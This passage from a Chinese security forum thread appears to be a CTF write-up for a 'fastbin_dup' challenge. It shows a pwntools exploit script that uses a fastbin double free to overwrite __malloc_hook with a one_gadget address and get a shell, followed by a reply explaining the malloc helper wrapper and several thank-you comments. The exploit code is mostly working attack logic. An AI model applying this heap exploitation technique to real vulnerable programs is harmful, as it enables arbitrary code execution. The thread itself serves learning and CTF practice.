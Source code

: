 ```
malloc(0x48,"D"*8)

chunk_C = malloc(0x58,"E"*8)
chunk_D = malloc(0x58,"F"*8)

free(chunk_C)
free(chunk_D)
free(chunk_C)

malloc(0x58,p64(libc.sym.main_arena+32))
malloc(0x58,"-s\0")
#  malloc(0x58,"G"*8)
malloc(0x58,"H"*8)                                                                                                                   

malloc(0x58,b"Y"*48+p64(libc.sym.__malloc_hook-36))

malloc(0x28,b"Z"*20+p64(libc.address+one_gadget))
malloc(1,'')

```

执行脚本效果

![](https://static.hack1s.fun/images/2021/04/01/image-20210401210231452.png)

![](https://static.52pojie.cn/static/image/filetype/zip.gif)

[challenge-fastbin_dup.zip](forum.php?mod=attachment&aid=MjI3MjY3OXwyMDE4OWQyM3wxNjIxMzAyOTczfDIxMzQzMXwxNDI0ODYz)

5.88 KB, 下载次数: 9, 下载积分: 吾爱币 -1 CB

![](https://avatar.52pojie.cn/data/avatar/001/57/34/12_avatar_middle.jpg)> [woshitc008 发表于 2021-4-27 19:46](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38270058&ptid=1424863)  
> 你家的 malloc 为何会有两个参数

python 做的封装，pwntools 和二进制程序交互常见操作，看一下脚本就知道了  
[Python] _纯文本查看_ _复制代码_

```
def malloc(size, data):
   io.send("1")
   io.sendafter("size: ", f"{size}")
   io.sendafter("data: ", data)
   io.recvuntil("> ")

``` ![](https://avatar.52pojie.cn/data/avatar/001/52/40/87_avatar_middle.jpg)呆毛王与咖喱棒

> [呆毛王与咖喱棒 发表于 2021-4-28 19:41](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38288486&ptid=1424863)  
> python 做的封装，pwntools 和二进制程序交互常见操作，看一下脚本就知道了  
> [mw_shl_code=python,true]  ...

原来如此  受教了 ![](https://avatar.52pojie.cn/data/avatar/000/07/04/62_avatar_middle.jpg) 技术贴，看不懂凑个热闹！![](https://avatar.52pojie.cn/data/avatar/000/48/62/99_avatar_middle.jpg)woshitc008 谢谢楼主分享 很详细 ![](https://avatar.52pojie.cn/data/avatar/001/63/96/58_avatar_middle.jpg) id3721 感谢楼主分享技术 学习学习 ![](https://avatar.52pojie.cn/data/avatar/000/38/16/15_avatar_middle.jpg) chenjingyes 感谢楼主分享技术 学习学习![](https://avatar.52pojie.cn/data/avatar/001/31/21/81_avatar_middle.jpg)烟痕呀 好好学习一下了。支持![](https://avatar.52pojie.cn/data/avatar/000/96/17/34_avatar_middle.jpg)那时一起走

> [那时一起走 发表于 2021-4-23 00:42](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38188037&ptid=1424863)  
> 感谢楼主分享技术 学习学习

```